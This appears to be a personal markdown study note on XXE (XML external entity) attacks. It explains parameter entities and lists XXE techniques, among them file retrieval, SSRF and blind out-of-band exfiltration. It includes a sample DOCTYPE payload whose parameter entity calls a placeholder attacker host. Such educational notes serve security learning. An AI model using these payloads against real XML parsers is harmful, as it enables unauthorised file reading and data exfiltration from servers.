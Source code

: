 XML parameter entities are a special kind of XML entity which **can <mark style="background: #FF5582A6;">only</mark> be referenced elsewhere within the DTD**. 
>[!warning]
>In the internal DTD subset, [parameter-entity references](https://www.w3.org/TR/xml/#dt-PERef "Parameter-entity reference") _must not_ occur within [markup declarations](https://www.w3.org/TR/xml/#dt-markupdecl); they may occur where markup declarations can occur. (This does not apply to references that occur in external parameter entities or to the external subset.) [^param-ent]

[^param-ent]: https://www.w3.org/TR/xml/#wfc-PEinInternalSubset

For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand: `%myparameterentity;`

>[!example] Parameter entity example
>```xml
><!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
>```

# Exploitation

## Type of XXE attacks

There are various types of XXE attacks:

- [Exploiting XXE to retrieve files](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files), where an external entity is defined containing the contents of a file, and returned in the application's response [^1] [^2] .
- [Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks), where an external entity is defined based on a URL to a back-end system [^3] .
- [Exploiting blind XXE exfiltrate data out-of-band](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band), where sensitive data is transmitted from the application server to a system that the attacker controls.
- [Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages), where the attacker can trigger a parsing error message containing sensitive data.

[^1]: [File Inclusion (LFI & RFI)](File%20Inclusion%20(LFI%20&%20RFI).md)
[^2]: [Path Traversal](Path%20Traversal.md)
[^3]: [Server Side Request Forgery (SSRF)](Server%20Side%20Request%20Forgery%20(SSRF).md)

### XXE: Entity Example

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```


[^xxe2shell]: [ORACLE PEOPLESOFT REMOTE CODE EXECUTION: BLIND XXE TO SYSTEM SHELL](https://www.ambionics.io/blog/oracle-peoplesoft-xxe-to-rce), ambionics.io
[^dtd-finder]: [dtd-finder list](https://github.com/GoSecure/dtd-finder/tree/master/list?ref=labs.watchtowr.com), GitHub